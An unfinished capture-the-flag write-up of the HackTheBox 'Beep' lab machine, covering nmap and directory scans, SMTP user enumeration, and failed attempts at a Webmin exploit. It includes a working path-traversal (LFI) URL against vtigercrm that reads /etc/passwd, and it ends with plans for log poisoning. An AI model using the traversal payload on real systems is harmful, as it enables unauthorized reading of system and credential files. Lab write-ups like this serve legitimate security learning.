 # *Beep
`* still in progress`
## Recon

Tags: LFI, web 

### Scan findings
```nmap
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       syn-ack ttl 63 Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack ttl 63 2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: NAMESPACE THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED URLAUTHA0001 LISTEXT OK X-NETSCAPE IDLE RENAME CATENATE CONDSTORE MULTIAPPEND THREAD=REFERENCES ANNOTATEMORE Completed SORT=MODSEQ SORT IMAP4rev1 ATOMIC NO QUOTA BINARY LITERAL+ ACL CHILDREN ID IMAP4 STARTTLS MAILBOX-REFERRALS UNSELECT UIDPLUS RIGHTS=kxte
443/tcp   open  ssl/http   syn-ack ttl 63 Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry
|_/
878/tcp   open  status     syn-ack ttl 63 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack ttl 63 Cyrus imapd
995/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d
3306/tcp  open  mysql      syn-ack ttl 63 MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      syn-ack ttl 63 Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack ttl 63
4559/tcp  open  hylafax    syn-ack ttl 63 HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack ttl 63 Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: Linux 2.6.9 - 2.6.24 (95%),
```

Some users found on port 25
```
[25][smtp-enum] host: 10.10.10.7   login: info  
[25][smtp-enum] host: 10.10.10.7   login: adm  
[25][smtp-enum] host: 10.10.10.7   login: root  
[25][smtp-enum] host: 10.10.10.7   login: mysql  
[25][smtp-enum] host: 10.10.10.7   login: ftp
```

https webserver has a few webpages
```
200        1l        6w      894c https://10.10.10.7/favicon.ico  
200        2l        4w       28c https://10.10.10.7/robots.txt  
200       35l      111w     1785c https://10.10.10.7/  
200       35l      111w     1785c https://10.10.10.7/config.php  
200       35l      111w     1785c https://10.10.10.7/index.php  
200       35l      111w     1785c https://10.10.10.7/register.php
```

## Enumeration

The site on 443 is an Elastics CRM login page.  
![[Pasted image 20220113213548.png]]

## Exploitation

It might be this, considering the LFI tag.  
![[Pasted image 20220113212032.png]]

That exploit doesn't work, however it does help to enumerate vtigercrm. I checked, and sure enough it's on this box. The login page even discloses the version `5.1.0`

![[Pasted image 20220113213050.png]]

This new exploit [EDB-18770](https://www.exploit-db.com/exploits/18770), suggests the following url: `https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`

Sure enough, I can read files now.

![[Pasted image 20220113213426.png]]

After some testing, it looks like we only need to go up 4 directories in the directory traversal: `/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../etc/passwd%00`

Contents of `/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

I was able to get the user flag using LFI

![[Pasted image 20220113215313.png]]

## more Enumeration

There is also a webserver on port 10000.  
![[Pasted image 20220114211041.png]]

An nmap script picked up `CVE-2006-3392`  
![[Pasted image 20220114213707.png]]  
This CVE is linked to [EDB-1997](http://www.exploit-db.com/exploits/1997/).  

Reviewing the exploit shows usage on line 50. No changes are necessary; all variables are provided at runtime instead of hardcoded in varaibles.  
![[Pasted image 20220114214954.png]]

This exploit is throwing errors:  
![[Pasted image 20220114215506.png]]

I found [this answer on StackOverflow](https://stackoverflow.com/a/6382581).  
![[Pasted image 20220114215646.png]]  
Installing the proper version for my php package.  

To identify php version:
```bash
php --version
```
Then install proper version:
```bash
sudo apt install php7.4-curl
```

![[Pasted image 20220114215957.png]]

It appears this exploit is not working even with php-curl installed.

There are a bunch of SSL errors in the NMAP output. It seems Autorecon was scanning using HTTP instead of HTTPS. Will re-run some scans with https.

These commands should be re-run using HTTPS instead of HTTP.
```
curl -sSik https://10.10.10.7:10000/ &&
curl -sSikf https://10.10.10.7:10000/.well-known/security.txt &&
curl -sSikf https://10.10.10.7:10000/robots.txt &&

nmap -vv --reason -Pn -T4 -sV -p 10000 --script="banner,(https* or ssl*) and not (brute or broadcast or dos or external or https-slowloris* or fuzzer)" -oN "/home/nate/hackthebox/beep/scans/tcp10000/tcp_10000_https_nmap.txt" -oX "/home/nate/hackthebox/beep/scans/tcp10000/xml/tcp_10000_https_nmap.xml" 10.10.10.7 &&

whatweb --color=never --no-errors -a 3 -v https://10.10.10.7:10000 2>&1
```

```bash
feroxbuster -u https://10.10.10.7:10000/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "php,bin,txt" -v -k -n -o /home/nate/hackthebox/beep/scans/tcp80/tcp_80_http_feroxbuster_https.txt
```



## Privilege Escalation.

I still don't have code execution. I should probably look around at other files to see if any credentials can be read. Or maybe I can poison some logs and gain code exection.

## Searching for logs to poison.

